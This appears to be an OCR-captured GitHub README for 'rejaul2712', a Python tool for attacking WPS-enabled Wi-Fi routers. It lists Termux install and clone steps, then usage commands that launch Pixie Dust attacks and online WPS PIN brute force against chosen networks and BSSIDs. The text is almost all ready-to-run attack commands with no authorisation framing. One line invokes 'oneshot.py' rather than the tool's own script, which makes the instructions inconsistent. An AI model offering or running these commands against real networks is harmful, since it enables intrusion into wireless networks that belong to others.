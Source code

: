 # rejaul2712

---
pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

git clone https://github.com/princeicon2712/rejaul2712.git

$ cd rejaul2712

$ chmod +x *

$ python rejaul.py -h

plz' go to HOME

``` Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

wps router push button:- sudo python oneshot.py -i wlan0 --pbc

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
